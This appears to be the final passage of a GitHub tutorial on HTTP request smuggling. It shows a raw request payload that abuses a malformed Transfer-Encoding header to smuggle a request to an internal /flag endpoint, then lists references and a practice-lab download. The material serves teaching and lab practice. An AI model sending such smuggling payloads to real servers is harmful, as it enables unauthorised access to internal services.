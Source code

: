 ```

GET /a HTTP/1.1
Host: 192.168.0.109
Content-Length: 4
Transfer-Encoding: chunkedasd

2c
GET /flag HTTP/1.1
Host: 127.0.0.1:8080


0

GET /a HTTP/1.1
Host: 127.0.0.1:8080
    
```

<p>
      <a href="https://drive.google.com/file/d/12TvWtaJgUNUw7awFeGUYW9mQbh7NTY0s/view">
	   <kbd>
	     <img src="/Images/21.png" height=320 width=800"></a>
	    </kbd>
</p>
							    
							    
For learn more you can visit [PortSwigger's Labs](https://portswigger.net/web-security/request-smuggling). 
							    
<h2><a id="user-content-tldr" class="anchor" href="#tldr"><span class="octicon octicon-link"></span></a>References:</a></h2>

 * https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f
 * https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf
 * https://i.blackhat.com/USA-19/Wednesday/us-19-Kettle-HTTP-Desync-Attacks-Smashing-Into-The-Cell-Next-Door.pdf
 * https://www.youtube.com/watch?v=_A04msdplXs&t=904s

<h2><a id="user-content-tldr" class="anchor" href="#tldr"><span class="octicon octicon-link"></span></a>Lab Download:</a></h2>

 * [Parctice lab](https://drive.google.com/file/d/12TvWtaJgUNUw7awFeGUYW9mQbh7NTY0s/view)

<h2><a id="user-content-tldr" class="anchor" href="#tldr"><span class="octicon octicon-link"></span></a>Special Thanks</a></h2>

 - [James Kettle](https://twitter.com/albinowax)
 - [Muzkkir Husseni](https://github.com/mymuzzy/FinitHicDeo)
 - [Nishith Khadadiya](https://twitter.com/busk3r)

 <strong>EOF</strong>
